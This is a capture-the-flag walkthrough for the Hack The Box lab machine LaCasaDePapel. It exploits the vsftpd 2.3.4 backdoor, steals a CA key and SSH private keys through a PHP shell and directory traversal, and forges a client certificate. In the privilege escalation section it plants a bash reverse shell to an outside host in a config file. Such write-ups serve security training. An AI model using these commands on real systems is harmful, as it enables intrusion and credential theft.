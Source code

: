 <h2>Target: 10.10.10.131 LaCasaDePapel</h2><br>

<b>Initial Access:</b><br>
nmap -Pn 10.10.10.131 --min-rate=5000 -p-|grep open|awk -F '/' '{print $1}'|tr '\n' ',' <br>
Output shows open ports: 21,22,80,443

Enumerate these open ports further with nmap: <br>
nmap -Pn 10.10.10.131 --min-rate=5000 -p 21,22,80,443 -sC -sV -oN nmap.LaCasaDePapel
 
![image](https://user-images.githubusercontent.com/93153300/205336565-24cb78c6-f33a-4e50-8a28-d77eaa5d0e45.png)
 
Nmap shows on port 443 that the certificate has a commonName of lacasadepapel.htb.  Add that into the file /etc/hosts: 10.10.10.131 lacasadepapel.htb

Visiting port 80 shows we need a password.  We don’t have a password so let’s take a look at port 443.  Port 443 shows we need a client certificate to access the site:
 
![image](https://user-images.githubusercontent.com/93153300/205336684-42a7964c-9593-4420-8454-eaaaefd51933.png)


We don’t have a client certificate so let’s take a look at port 21.  Nmap shows port 21 is vsftpd version 2.3.4.  This version has a known backdoor exploit.  Find the exploit with command: searchsploit vsftpd: 
 
![image](https://user-images.githubusercontent.com/93153300/205336736-b73a9928-a941-4e86-881b-401cf8a0b120.png)
 
Download the backdoor: searchsploit -m 49757.py <br>
Run the exploit: python 49757.py 10.10.10.131

The exploit opened up the backdoor on port 6200.  Connect to port 6200: telnet 10.10.10.131 6200

This exploit is pretty simple to do manually: <br>
Step 1: Connect to the target on ftp: ftp 10.10.10.131 <br>
Step 2: Enter any username and append a smiley face to the end of the username, like this: john:) <br>
Step 3: Enter any password <br>
Step 4: Connect to port 6200: telnet 10.10.10.131 6200 

Usually this exploit opens a bash shell.  However, in this case the service on port 6200 does not open a bash shell:
  
![image](https://user-images.githubusercontent.com/93153300/205336769-7a9bd273-3f2c-4c65-abc1-5615f9a93537.png)
 
This is a Psy Shell, which is a runtime developer console, interactive debugger, and REPL for PHP.  To get some basic information run command: phpinfo();
The output shows a number of disabled functions:  
 
![image](https://user-images.githubusercontent.com/93153300/205336807-a6a7d3c4-8081-41e2-b202-5355730c363d.png)
   
So if we run a disabled command it fails and we get a warning that the command has been disabled: 
 
![image](https://user-images.githubusercontent.com/93153300/205336851-e1c34978-9b75-45ef-806b-a3a6fe8499d1.png)
 
Run command ls -al.  We get a return of a variable called $tokyo.  Next, run command: show $tokyo
We find an interesting file path of ‘/home/nairobi/ca.key’:
 
![image](https://user-images.githubusercontent.com/93153300/205336874-a7759d84-e37a-4034-a204-65e6826efc5f.png)
  
If we can get the ca.key file we can use that to create the client certificate we need to get access to port 443.  To enumerate the Psysh shell further, we can use ‘scandir’ to list files, and ‘file_get_contents’ to read files.   Running command file_get_contents('/home/nairobi/ca.key') shows the private key:

![image](https://user-images.githubusercontent.com/93153300/205336912-d43129b6-7658-494a-a4b9-1dbfe3b2de6a.png)

Copy the private key we got from the ca.key file to our local kali.  We will name the file ca-nairobi.key.  For this key to work we need to format it correctly.  Remove all the \n, and remove all the spaces at the beginning of each line.  These are the steps for creating and uploading the client certificate to port 443:

*(We will put numbers with the filenames to make it easier to keep track of the files)<br>
Step 1: Create a request certificate file:  openssl req -new -key 0ca-nairobi.key -out 1client.csr <br>
Step 2: Visit port 443 and click on ‘View Certificate’:
 
![image](https://user-images.githubusercontent.com/93153300/205336958-37c7bf3c-552c-4a7f-ac3c-40dde39245c9.png)

Step 3: Going through the certificate we opened on port 443, download the ‘PEM(cert)’ file by clicking on it:
 
![image](https://user-images.githubusercontent.com/93153300/205337018-46950fe1-4bdc-44ba-b4c7-423e72ddb6ca.png)

We are downloading this ‘PEM(cert)’ file because we will need it for the next step.  The downloaded file is automatically named ‘lacasadepapel-htb.pem’.  We will change the name to ‘2lacasadepapel-htb.pem’<br>
Step 4: Create the client certificate: openssl x509 -req -days 365 -in 1client.csr -CA 2lacasadepapel-htb.pem -CAkey 0ca-nairobi.key -out 3client.crt <br>
Step 5: Change the 3client.crt into a file format that firefox can import: openssl pkcs12 -export -inkey 0ca-nairobi.key -in 3client.crt -out 4client.pfx <br>
Step 6: Go to the Firefox settings and search for ‘cert’:
 
![image](https://user-images.githubusercontent.com/93153300/205337045-e8132942-f003-4a18-9c43-b8b7d50eef89.png)

Click on ‘View Certificates’. Go to ‘Your Certificates’, and click on ‘Import’:
 
![image](https://user-images.githubusercontent.com/93153300/205337076-f580cc81-b2b9-4410-a732-05412a491396.png)
 
Import the ‘4client.pfx’ file. <br>
Step 7: Go back to port 443 and click on the lock to the left of the url:
 
![image](https://user-images.githubusercontent.com/93153300/205337105-0be44247-cb4d-4bfc-ad9c-258db1345440.png)
 
After clicking on the lock, you'll see a ‘connection not secure’ option, click on that.  After clicking on 'connection not secure' you'll see a 'Remove Exception’ option, click on that.   <br>
Step 8: Refresh port 443 and we are now able to see the page content:
 
![image](https://user-images.githubusercontent.com/93153300/205337139-06cefe9a-b24f-415a-b73d-de6af834f2cd.png)

Click on ‘Season-1’. The url becomes: https://10.10.10.131/?path=SEASON-1.  Test for directory traversal by replacing ‘Season-1’ with ‘../’:
 
![image](https://user-images.githubusercontent.com/93153300/205337177-48fcd564-de54-43ed-b7de-28e3977754ce.png)

This shows we have directory traversal.   After looking around with directory traversal for some time, we find that there is not much to do with this vulnerability alone.  As we can only see files, but when we try to read them it runs into errors.  

Click again on Season-1.  The page shows:
 
![image](https://user-images.githubusercontent.com/93153300/205337196-1ed82c23-3563-4bd5-9151-281aee64a2ce.png)
 
Click on one of these files and capture the request in burp suite.  The captured request in burp suite shows that it reaches out to a directory of /file/U0VBU09OLTIvMDEuYXZp.  Use ‘Inspector’ (located on the right side in burp suite) to decode the string:
 
![image](https://user-images.githubusercontent.com/93153300/205337224-f5e00bac-2845-4054-982a-74eb08a80e4a.png)
 
Inspector shows that it’s base64 of the file we chose to download.  We saw from the directory traversal that there is a .ssh directory.  Use this capture we have in burp suite to read the id_rsa of the user.

Step 1: Use the directory traversal to confirm that there is a ‘id_rsa’ file.  Put in the url path: ‘Path=../.ssh’
 
![image](https://user-images.githubusercontent.com/93153300/205337250-e7c3dc3a-f5e1-4e75-8ef4-6e28f2b46623.png)
 
We confirmed that their is an ‘id_rsa’ file.  <br>
Step 2: Base64 encode the file location.  The file location we found with the directory traversal is ‘../.ssh/id_rsa’.  Replace the /file/U0VBU09OLTIvMDEuYXZp with /file/../.ssh/id_rsa.  <br>
Step 3: Use burp suite to base64 encode (Ctrl+B) the ../.ssh/id_rsa part, and send the request:
 
![image](https://user-images.githubusercontent.com/93153300/205337291-0130fa0e-1213-425d-9666-bd7a23ad75dd.png)
 
The burp suite capture returns the id_rsa private key.  Copy the private key into a file.  Change the key permission using command: chmod 600 id_rsa <br> 
To find the user associated to this private key perform the same steps as we did above to get the id_rsa, but this time get the id_rsa.pub file instead.  The id_rsa.pub file contains the username.  After performing these steps on id_rsa.pub we find the username is berlin.  

The ssh login doesn’t work for berlin.  Let’s try the private ssh key on the other users, maybe it’s their private ssh key.  To get the usernames on the target use the same steps we used to get the private ssh key, but instead of getting the file id_rsa get the file /etc/passwd.  The file /etc/passwd reveals the usernames: dali, berlin, nairobi, oslo, professor.  

Put these usernames in a file and call the filename ‘ulist’.  Next, run a for loop for ssh login with the private ssh key: for user in \`cat ulist\`;do ssh -i id_rsa $user@10.10.10.131 -o batchmode=yes;done

The key worked for username professor.  We now have a shell as professor.  
______________________________________________________________________
<b>Privilege Escalation:</b><br>
In the directory /home/professor we see 2 memcached files: memcached.ini and memcached.js.  Opening memcached.ini shows:
 
![image](https://user-images.githubusercontent.com/93153300/205337322-610cc0ed-f5c1-498e-b78c-ccaf5a0a3a6d.png)
 
Seems like memcached.ini is a programmed command to run memcached.js.  This may be a cron that runs often (even though pspy didn't show this).  To check this theory do the following:

Step 1: We don’t have permissions to write to the file memcached.ini, but we do have permissions to move the file to a different directory and create a new file with the name memcached.ini.  To move the file to a different directory run the command: mv memcached.ini /dev/shm <br>
Step 2: Create a file named memcached.ini and put a bash reverse shell in this file.  It should look like this: <br>
[program:memcached] <br>
command = /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.9/443 0>&1' <br>
Step 3: Open a netcat listener (we will use pwncat because it gives a better shell): pwncat-cs -lp 443

After a few moments our pwncat gets a shell as user root.  We can get the flag in /root/root.txt.
